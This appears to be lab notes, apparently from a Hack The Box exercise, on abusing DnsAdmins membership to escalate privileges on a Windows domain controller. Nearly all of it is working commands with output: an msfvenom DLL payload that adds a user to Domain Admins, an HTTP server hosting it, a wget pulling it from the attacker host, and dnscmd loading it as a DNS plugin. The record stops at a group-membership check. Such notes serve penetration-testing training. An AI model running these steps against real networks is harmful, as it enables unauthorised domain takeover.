# DnsAdmins

The DNS service runs as NT AUTHORITY\SYSTEM, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain.

## Leveraging DnsAdmins Access

1) Generating Malicious DLL

```
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll
```

2) Starting Local HTTP Server

```
python3 -m http.server 7777

Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...
10.129.43.9 - - [19/May/2021 19:22:46] "GET /adduser.dll HTTP/1.1" 200 -
```

3) Downloading File to Target

```
PS C:\htb>  wget "http://10.10.14.3:7777/adduser.dll" -outfile "adduser.dll"
```

4) Loading DLL as Non-Privileged User

```
dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

DNS Server failed to reset registry property.
    Status = 5 (0x00000005)
Command failed: ERROR_ACCESS_DENIED
```

5) Loading DLL as Member of DnsAdmins

```
Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109
```
